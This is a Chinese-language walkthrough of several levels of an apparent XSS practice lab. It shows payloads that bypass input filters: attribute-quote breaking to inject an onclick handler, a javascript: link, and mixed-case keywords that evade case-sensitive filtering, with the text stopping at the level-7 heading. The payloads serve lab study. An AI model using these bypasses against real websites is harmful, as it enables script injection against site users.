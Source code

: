 ### Level-3——过滤尖括号——onclick事件属性

原始input标签

```html
<input name=keyword  value='111111'>	
```

目的input标签(注意value属性的前半个单引号和后半个单引号的闭合)

```html
<input name=keyword  value='11111' onclick='alert(1)'>	
```

我们提交的XSS语句就成为：

```html
11111' onclick='alert(1)
```

因而可以绕过对于提交内容中的尖括号的过滤

### Level-5——过滤`<script`和 `on`字符——超链接

既要闭合input标签内部，又要使得链接标签写入前端写法如下

原始input标签

```html
<input name=keyword  value="3333 ">
```

闭合inoput并构造添加一个超链接标签(注意前后双引号闭合)

```html
<input name=keyword  value="3333"><a href="javascript:alert(1);">链接文本</a><"">
```

则需要提交到搜索框中的部分为

```html
3333"><a href="javascript:alert(1);">链接文本</a><"
```

提交后XSS执行成功

### Level-6——`<script`、`on`、`src`、`href`关键字都会被过滤——大小写绕过过滤

`str_replace()` 函数以其他字符替换字符串中的一些字符（区分大小写）。

由于区分大小写，这时我们尝试将提交XSS语句中涉及过滤关键字的部分大小写绕过(这里只是单纯过滤关键字，没有使用正则表达式匹配，如果使用了正则匹配，则无法大小写绕过过滤)，则XSS语句写成

```
3333"><a Href="javascript:alert(1);">链接文本</a><"
```

提交后执行成功

### Level-7——`<script`、`on`、`src`、`href`关键字都会被过滤且大小写无法绕过——关键字双写绕过
